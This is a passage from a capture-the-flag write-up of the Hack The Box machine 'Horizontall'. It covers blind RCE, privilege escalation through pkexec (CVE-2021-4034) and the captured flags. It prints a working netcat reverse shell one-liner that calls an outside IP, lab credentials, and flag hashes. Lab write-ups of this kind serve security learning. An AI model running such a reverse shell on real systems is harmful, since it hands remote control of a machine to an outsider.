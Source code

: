 It does work as I looged GET request on  web server. I had to do this to ensure that blind RCE was working. 

{{<figure src="/images/horizontall-footholdb.png" title="Verifing Blind RCE">}}

### 4.2 Reverse Shell

* Shell used 

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f
```
{{<figure src="/images/horizontall_revshell.png" title="Reverse Shell">}}

### 4.3 User Flag
{{<figure src="/images/horizontall_uf.png" title="User Flag">}}

```bash
1e76ca9ddad1b45992f9701539d9ce9b
```

## 5. Privilege Escalation

* pkexec vulnerable using Linpeas

{{<figure src="/images/horizontall_pv_1.png" title="LinPEAS output">}}

## 5.1 Exploit

[Exploit used](https://github.com/arthepsy/CVE-2021-4034.git)

* Uploaded file using the strapi panel (credentials from Foothold exploit admin:SuperSecretPassword1) 
{{<figure src="/images/horizontall_pv_2.png" title="">}}

* Compile the exploit
{{<figure src="/images/horizontall_pv_3.png" title="Compiling the exploit">}}

*	Execute exploit
{{<figure src="/images/horizontall_pv_4.png" title="Executing the exploit">}}

## 5.2 Root Flag
Et voila
{{<figure src="/images/horizontall_pv_5.png" title="Hehehe! And all this you were busy thinking we wouldn't be able to do this">}}

```bash
# cat root.txt
e1581bd68329ddd2aacdfb01631ab02d
```


